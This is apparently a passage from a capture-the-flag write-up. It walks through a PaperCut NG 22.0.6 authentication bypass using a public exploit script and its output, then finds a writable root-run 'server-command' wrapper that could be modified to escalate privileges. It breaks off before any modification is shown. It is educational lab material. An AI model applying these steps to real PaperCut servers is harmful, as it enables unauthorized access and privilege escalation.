 ```
-rwxr-xr-x 1 papercut papercut  279 Sep 29  2022 stop-server
-rwxr-xr-x 1 papercut papercut  480 Sep 29  2022 upgrade-server-configuration

```

Moreover we find [authentication bypass](https://www.exploit-db.com/exploits/51391) which might work in this case
```
papercut@bamboo:~$ cat server/version.txt 
[version]
name-with-version=PaperCut NG 22.0.6 (Build 64379)
name=PaperCut NG
version-major=22
version-minor=0
version-patch=6
version-suffix=
version-build=64379
```

Let's run it
```
└─$ python3 auth_bypass.py                                                                            
Enter the ip address: 127.0.0.1
Version: 22.0.6
Vulnerable version
Step 1 visit this url first in your browser: http://127.0.0.1:9191/app?service=page/SetupCompleted
Step 2 visit this url in your browser to bypass the login page : http://127.0.0.1:9191/app?service=page/Dashboard

```

After visiting two urls, we have access to dashboard

![](2.png)

We also notice that there's a single binary that runs as `root` when enumerating via `pspy`

![](4.png)

Eventually, after clicking around in `/app?service=page/PrintDeploy` endpoint, we find that after clicking `Start Importing Mobility Print printers` in `Import Mobility Print queues` and pressing `Refresh servers` triggers the `server-command` binary to be executed, which is also run by `root`

![](6.png)

![](5.png)

Since we have write permissions we can modify it to escalate our privileges
```
papercut@bamboo:~$ cat server/bin/linux-x64/server-command 
#!/bin/sh
#
# (c) Copyright 1999-2013 PaperCut Software International Pty Ltd
#
# A wrapper for server-command
#

. `dirname $0`/.common

export CLASSPATH
${JRE_HOME}/bin/java \
        -Djava.io.tmpdir=${TMP_DIR} \
        -Dserver.home=${SERVER_HOME} \
        -Djava.awt.headless=true \
        -Djava.locale.providers=COMPAT,SPI \
```